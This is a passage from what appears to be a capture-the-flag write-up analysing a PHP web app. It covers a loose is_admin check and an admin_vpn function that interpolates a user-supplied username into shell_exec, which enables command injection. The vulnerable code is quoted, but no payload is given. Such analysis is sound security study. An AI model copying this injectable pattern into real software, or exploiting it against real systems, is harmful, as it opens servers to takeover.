The problem lies in the fact that `is_admin` in the `update_settings` function is not checked for a specific value, but both if it exists and/or its value is true and since the is_admin function returns JSON, the `if` statement in the `update_settings` results to true because `is_admin` has a value.

## Admin VPN

The second vulnerability exists in the `VPNController.php` and specifically the `admin_vpn` function.

```php
public function admin_vpn($router) {
    if (!isset($_SESSION['loggedin']) || $_SESSION['loggedin'] !== true) {
        return header("HTTP/1.1 401 Unauthorized");
        exit;
    }
    if (!isset($_SESSION['is_admin']) || $_SESSION['is_admin'] !== 1) {
        return header("HTTP/1.1 401 Unauthorized");
        exit;
    }
    if (!isset($_SERVER['CONTENT_TYPE']) || $_SERVER['CONTENT_TYPE'] !== 'application/json') {
        return json_encode([
            'status' => 'danger',
            'message' => 'Invalid content type.'
        ]);
        exit;
    }
    $body = file_get_contents('php://input');
    $json = json_decode($body);
    if (!isset($json)) {
        return json_encode([
            'status' => 'danger',
            'message' => 'Missing parameter: username'
        ]);
        exit;
    }
    if (!$json->username) {
        return json_encode([
            'status' => 'danger',
            'message' => 'Missing parameter: username'
        ]);
        exit;
    }
    $username = $json->username;
    $this->regenerate_user_vpn($router, $username);
    $output = shell_exec("/usr/bin/cat /var/www/html/VPN/user/$username.ovpn");
    return is_array($output) ? implode("<br>", $output) : $output;
}
```

While this function calls the `regenerate_user_vpn` function, which has sanitisation in place to prevent any injection attacks, to generate a VPN, it instead uses a `shell_exec` to read and print the contents of the generated VPN file.

```bash
$output = shell_exec("/usr/bin/cat /var/www/html/VPN/user/$username.ovpn");
```

Due to the username variable being used here a command injection is possible.
